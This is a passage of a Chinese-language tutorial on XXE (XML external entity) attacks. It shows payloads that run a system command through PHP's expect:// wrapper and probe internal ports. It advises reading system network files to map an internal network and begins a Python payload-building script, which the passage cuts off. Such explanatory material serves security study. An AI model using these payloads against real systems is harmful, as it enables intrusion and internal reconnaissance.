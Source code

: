 ![image-20240705211516466](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240705211516466.png)







### 执行系统命令

> 我们说的利用xxe命令执行，直接获取shell，都是在php中的xxe，PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上，我们可以直接执行系统命令；这种情况少有发生，而且换到了java中，并没有直接能shell的操作

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
		<! ENTITY xxe SYSTEM "expect://id">
]>
<x>&xxe</x>

```





### 探测内网

可通过时间响应差异等情况探测内网IP，以及端口开放情况。

如果内网存在redis未授权，可以尝试进行组合攻击。



```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE ANY[    
    <!ENTITY port SYSTEM "http://127.0.0.1:80">
]> 
<x>&port;</x>

```

![image-20240705211613861](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240705211613861.png)

![image-20240705211632680](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240705211632680.png)



**HTTP内网主机探测：**

以存在 XXE 漏洞的服务器为我们探测内网的支点。要进行内网探测我们还需要做一些准备工作，我们需要先利用 file 协议读取我们作为支点服务器的网络配置文件，看一下有没有内网，以及网段大概是什么样子（以linux 为例），可以尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件以后我们就有了大致的探测方向了

脚本例子如下：

```python
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
```